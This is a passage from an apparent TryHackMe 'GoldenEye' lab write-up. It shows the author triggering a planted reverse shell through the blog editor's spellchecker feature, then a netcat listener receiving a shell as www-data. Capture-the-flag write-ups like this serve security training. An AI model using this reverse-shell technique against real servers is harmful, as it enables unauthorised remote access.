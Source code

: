 On **Navigation** bar → Expand the **Blogs** → Select _Add a new entry_ → On the right-hand, click on the icon which would display _Toggle spellchecker_ when being hover on:

![Untitled](/assets/Golden%20Eye%20images/Untitled%207.png)

Then I connected to the system through my reverse shell payload:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.133.138] 58940
bash: cannot set terminal process group (1047): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$

```
